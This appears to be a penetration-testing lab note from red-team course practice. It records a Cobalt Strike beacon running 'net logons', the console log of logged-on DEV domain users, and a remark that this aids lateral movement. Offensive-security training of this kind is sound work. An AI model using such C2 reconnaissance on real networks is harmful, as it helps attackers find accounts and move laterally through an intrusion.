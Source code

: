 command run:
`beacon> net logons` 

notable information:
`displays users that are currently logged on to the same machine, can offer a good way to laterally move`

notes:
`lists logon sessions`

new user listed DEV\jking, updating [[Penetration Testing v2/crto_Defender/access_Tracker]]
```powershell
[11/02 22:37:17] beacon> net logons
[11/02 22:37:17] [*] Tasked beacon to run net logons on localhost
[11/02 22:37:17] [+] host called home, sent: 106292 bytes
[11/02 22:37:19] [+] received output:
Logged on users at \\localhost:

DEV\bfarmer
DEV\bfarmer
DEV\WKSTN-2$
DEV\WKSTN-2$
DEV\WKSTN-2$
DEV\jking
DEV\WKSTN-2$
DEV\WKSTN-2$
DEV\WKSTN-2$
DEV\WKSTN-2$
DEV\WKSTN-2$
```